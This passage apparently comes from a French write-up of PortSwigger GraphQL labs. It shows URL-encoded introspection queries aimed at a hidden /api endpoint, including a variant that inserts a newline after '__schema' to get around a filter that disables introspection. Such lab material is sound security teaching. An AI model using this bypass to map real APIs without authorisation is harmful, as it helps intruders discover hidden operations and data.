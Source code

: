 ![Untitled](/assets/uploads/Portswigger Graphql/Untitled 2.png)

Exemple 2 :

![Untitled](/assets/uploads/Portswigger Graphql/Untitled 3.png)

Mais il existe aussi le cas où l’endpoint GraphQL est caché ainsi nous pouvons aussi encoder la requête dans l’url :

```jsx
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Prenons le cas où l’introspection est désactivé.

```jsx
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

![Untitled](/assets/uploads/Portswigger Graphql/Untitled 4.png)

Il est encore possible d’utiliser la fonctionnalité de suggestion pour établir un schéma.

```
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
```